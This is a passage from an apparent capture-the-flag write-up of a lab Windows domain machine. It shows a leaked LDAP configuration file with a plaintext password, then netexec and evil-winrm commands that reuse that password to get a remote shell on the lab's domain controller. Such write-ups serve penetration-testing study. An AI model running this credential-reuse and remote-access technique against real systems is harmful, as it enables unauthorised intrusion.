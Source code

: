 
The first file, `.old-conf.xml` is interesting. It has an LDAP
configuration for the raven user including a password:



    <?xml version="1.0" encoding="UTF-8"?>
    <ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
       <server>
          <host>dc01.manager.htb</host>
          <open-port enabled="true">389</open-port>
          <secure-port enabled="false">0</secure-port>
          <search-base>dc=manager,dc=htb</search-base>
          <server-type>microsoft</server-type>
          <access-user>
             <user>raven@manager.htb</user>
             <password>R4v3nBe5tD3veloP3r!123</password>
          </access-user>
          <uid-attribute>cn</uid-attribute>
       </server>
       <search type="full">
          <dir-list>
             <dir>cn=Operator1,CN=users,dc=manager,dc=htb</dir>
          </dir-list>
       </search>
    </ldap-conf>



### WinRM

The LDAP enumeration showed that raven is in the Remote Management Users
group, which means they should be able to WinRM. `netexec` confirms, and
that this password works:



    oxdf@hacky$ netexec winrm manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'
    WINRM       10.10.11.236    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
    WINRM       10.10.11.236    5985   DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 (Pwn3d!)



I'm able to connect and get a shell:



    oxdf@hacky$ evil-winrm -i manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'

    Evil-WinRM shell v3.4

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Raven\Documents> 



And grab `user.txt`:
